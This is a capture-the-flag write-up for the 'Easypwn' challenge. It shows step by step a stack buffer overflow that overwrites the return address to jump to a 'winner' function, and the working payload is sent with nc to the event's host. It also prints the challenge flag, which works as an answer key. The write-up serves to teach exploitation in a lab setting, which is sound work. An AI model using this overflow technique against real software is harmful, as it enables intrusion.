


# Easypwn
Author: surprior

Flag: `EPT{S0meth1n6_2_ge7_u_5t4rt3d}`
## Description
```
A nice introduction to pwn. Download the files to find the vulnerability, and exploit the host below to get the real flag.

`nc {{host}} {{port}}`
```

## Provided challenge files
* [easypwn.tar.gz](easypwn.tar.gz)


## Writeup

Tried to run it locally and run a whole lot of `A`'s as I guess this is a standard buffer overflow attack:

```bash
─$ python -c 'print("A"*45)' | ./easypwn
Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python -c 'print("A"*45)' | 
zsh: segmentation fault  ./easypwn
```

`dmesg` shows 

```log
[2846036.186229] easypwn[3901999]: segfault at 4141414141 ip 0000004141414141 sp 00007ffe72b935c0 error 14
```

I finetune and figure out that 40 A's is the magic number:

```bash
python -c 'print("A"*40 + "ABCDEF")' | ./easypwn
```

`dmesg` now shows that I overwrite the `Return Instruction Pointer` and the program segfaults.

```log
[2822529.208171] easypwn[3525302]: segfault at 464544434241 ip 0000464544434241 sp 00007ffff38f76b0 error 14
```

So now I can overwrite the RIP register. And I need to figure out the base address of this program. Running `checksec` shows that PIE is disabled so it starts at `0x400000`



Ghidra also starts there so it will be easy to see the addresses of functions I can jump to by overwriting the return address. And by chance there is a function called `winner` at address `0x401236` that prints the flag.



So adding that after 40 A's I get the flag!

```bash
─$ python -c 'print("A"*40 + b"\x36\x12\x40".decode());' | nc io.ept.gg 30004

Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```